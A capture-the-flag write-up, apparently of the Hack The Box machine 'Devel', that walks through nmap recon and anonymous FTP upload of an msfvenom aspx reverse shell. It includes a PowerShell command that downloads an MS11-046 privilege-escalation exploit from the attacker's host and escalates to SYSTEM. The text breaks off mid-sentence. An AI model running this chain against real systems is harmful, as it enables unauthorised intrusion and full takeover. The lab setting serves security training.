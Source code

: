 
# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:~# nmap 10.10.10.5 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 11:10 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:11 (0:00:06 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
From the above output we can see that ports, **21** and **80** are open.

Let's try to connect to ftp

```console
root@kali:~# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passiv



150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Here it is seen that ftp allows anonymous login. Let's go ahead and check if ftp allows the 'PUT' command.

![FTP](./Devel/Screenshot_3.png)
{**Figure 1:** Server runs on asp.net)

Idea is to craft a aspx payload and to deliver to the box using ftp PUT command.

We craft payload using msfvenom

![Msfvenom](./Devel/Screenshot_8.png)
(**Figure 2:** Msfvenom)

Delivering the payload
```console
ftp> put shell.asp
local: shell.asp remote: shell.asp
227 Entering Passive Mode (10,10,10,5,192,7).
125 Data connection already open; Transfer starting.
226 Transfer complete.
346 bytes sent in 0.00 secs (1.8748 MB/s)
````

Listening to netcat on port 4444 to catch the shell.

![Netcat](./Devel/Screenshot_4.png)
{**Figure 3:** Netcat listener)

# Exploitation  

Open the ip on the browser and navigate to the payload we delivered on the server.

![Payload](./Devel/Screenshot_5.png)
{**Figure 4:** Payload)

![Shell](./Devel/Screenshot_6.png)
{**Figure 5:** We got a reverse shell!)

![Low Shell](./Devel/Screenshot_7.png)
{**Figure 6:** Shell is a low privileged one)

Shell is a low privilged one, now for privesc.

# Privilege Escalation

![Sysinfo](./Devel/Screenshot_20.png)
{**Figure 7:** Here we see that the machine is running windows 7 build 7600)

Searching google for local prives for windows 7 reveals privesc payload. Next we download that and deliver it to the machine.

![Google](./Devel/Screenshot_19.png)
{**Figure 8:** Local Privesc)

We need to compile the file, all the instructions are in the payload file itself.

After the compilation we could deliver the payload either using ftp or using powershell. Here let's use powershell

Open a server on port 9005 using python

```console
python -m SimpleHTTPServer 9005
```

On the machine shell, type in the command to get a file using powershell
```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:9005/MS11-046.exe', 'c:\Users\Public\Downloads\MS46.exe')"
```

Exec the executable file

```console
c:\Users\Public\Downloads>MS46.exe
MS46.exe
```

```console
c:\Windows\System32>whoami
whoami
nt authority\system
```


## User Flag

In order to get the user flag, we change the directory to the user Desktop 'babis' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
This box could also be solved using msfconsole, catch the shell using meterpreter with the apsx payload, once the shell is acquired background it and run local_exploit_suggester on the session and run the exploit which the 

